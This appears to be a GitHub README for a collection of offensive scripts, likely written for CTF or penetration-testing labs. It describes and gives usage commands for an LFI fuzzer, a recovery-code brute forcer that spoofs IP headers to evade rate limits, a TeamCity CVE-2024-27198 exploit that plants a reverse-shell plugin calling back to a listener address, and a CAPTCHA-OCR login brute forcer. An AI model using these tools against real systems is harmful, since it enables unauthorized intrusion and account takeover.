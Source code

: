 # FuzzingTools

## LFI Fuzzer

A multithreaded Local File Inclusion (LFI) fuzzing tool with a Rich progress bar.
It sends payloads from a wordlist to a target URL, checks for successful inclusion based on keywords, and saves results.

## Usage

python3 lfi_fuzzer.py -w wordlist.txt -u "http://target.com/page?file={}" -t 10 \
-H headers.txt -o all_results.txt -s success.txt -k "root:x:,Windows" -S

## 4-Digit Recovery Code Brute Forcer

This Python script brute-forces a 4-digit numeric recovery code on a vulnerable reset_password.php endpoint. It uses threading, random spoofed IPs (X-Forwarded-For), and a provided PHP session to bypass rate-limiting and speed up the attack.

## Usage
python3 bypass_rate_limiting.py -ip <TARGET_IP> -p <PORT> -SID <PHPSESSID> -t <THREADS>

## TeamCity Evil Plugin Exploit

This script automates the process of building, uploading, enabling, and triggering a malicious TeamCity plugin that provides a reverse shell.

## Usage
python3 teamcity_CVE-2024-27198.py -t http://target:8111 -l 10.10.14.5 -p 4444

## Captcha Brute-Force

This Python script automates login attempts on a web page protected by a CAPTCHA. It uses Selenium to control a browser, downloads the CAPTCHA image, reads it using OCR (pytesseract), and tries passwords from a given wordlist.

## Usage

python3 captcha_brute_force.py -t traget_url -w wordlist -u username -c captcha_page


